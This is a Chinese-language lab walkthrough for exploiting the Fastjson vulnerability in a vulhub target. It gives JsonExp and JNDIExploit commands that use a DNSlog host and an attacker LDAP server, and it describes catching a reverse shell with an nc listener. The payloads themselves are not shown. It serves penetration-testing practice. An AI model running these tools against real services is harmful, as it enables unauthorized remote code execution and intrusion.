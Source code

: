 环境：kali linux

靶场：vulhub/fastjson

访问靶场：

DNSlog检测：

若出现dnslog回弹,可根据前面的编号去寻找对应的payload

```
JsonExp.exe -u http://192.168.100.134:8090/ -l vi7sp8.dnslog.cn	//DNSlog地址

```

编号.地址

测试的payload：

在DNSlog处查看回显：

工具对应生成报告文件内容：

LDAP检测,开启LDAP和HTTP服务：

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i 192.168.100.1

```

开始监听端口,可加参数自定义端口,也可以使用默认端口。

将DNSlog地址换成LDAP服务的地址和对应的端口

```
JsonExp.exe -u http://192.168.100.134:8090/ -l 192.168.100.1:1389

```

此时LDAP服务器可收到路径信息,可根据路径信息来定位触发漏洞的payload

查看检测生成的报告：

复制请求包,使用burp抓包修改数据包,复制此数据包

发送给重发器进行备份

复制此数据包：

查看可用的payload内容：

拿出其中一条,复制到payload1当中：

（如果不成功,可换其他的语句进行尝试）

本地开启nc监听：

发送数据包：

此时LDAP服务器可收到相关的信息：

反过来查看监听端是否反弹shell成功：

反弹shell成功
